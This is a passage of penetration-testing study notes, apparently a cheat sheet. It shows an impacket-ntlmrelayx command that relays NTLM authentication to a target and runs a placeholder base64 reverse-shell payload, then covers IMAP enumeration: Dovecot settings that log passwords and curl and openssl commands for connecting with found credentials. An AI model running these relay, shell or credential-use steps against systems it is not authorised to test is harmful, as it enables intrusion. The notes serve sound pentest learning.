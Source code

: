     5. Relay with `impacket-ntlmrelayx`:
    
       ```bash
       impacket-ntlmrelayx --no-http-server -smb2support -t [VULNERABLE_IP]-c '[REV SHELL BASE64]'
       ```
    
       



### 143, 993 IMAP

#### Generalities:

**Type:** Email receiving

- Purpose:
  - Access emails from a mail server
  - Allows online management on the server (supports folders)
  - Authentication to the desire mailbox
  - No-encryption: transmits commands, emails, or usernames and passwords in plain text.
  - SSL/TLS to require an encrypted session (on the higher port if present)

#### Configuration

In the documentation of Dovecot, we can find the individual [core settings](https://doc.dovecot.org/settings/core/) and [service configuration](https://doc.dovecot.org/configuration_manual/service_configuration/) options.

**Dangerous Settings:**

| **Setting**               | **Description**                                              |
| ------------------------- | ------------------------------------------------------------ |
| `auth_debug`              | Enables all authentication debug logging.                    |
| `auth_debug_passwords`    | This setting adjusts log verbosity, the submitted passwords, and the scheme gets logged. |
| `auth_verbose`            | Logs unsuccessful authentication attempts and their reasons. |
| `auth_verbose_passwords`  | Passwords used for authentication are logged and can also be truncated. |
| `auth_anonymous_username` | This specifies the username to be used when logging in with the ANONYMOUS SASL mechanism. |

#### Interaction

- nmap will return the available commands that can be executed

- If we discover the credentials:

  ```bash
  curl -k 'imaps://[IP]' --user user:password -v
  ```

  -  `verbose` (`-v`) we can see the version of TLS used for  encryption, further details of the SSL certificate, and even the banner, which could contain the version of the mail server.

- To connect via openssl (also `netcat` is possible):

  ```bash
  openssl s_client -connect [IP]:imaps
  ```
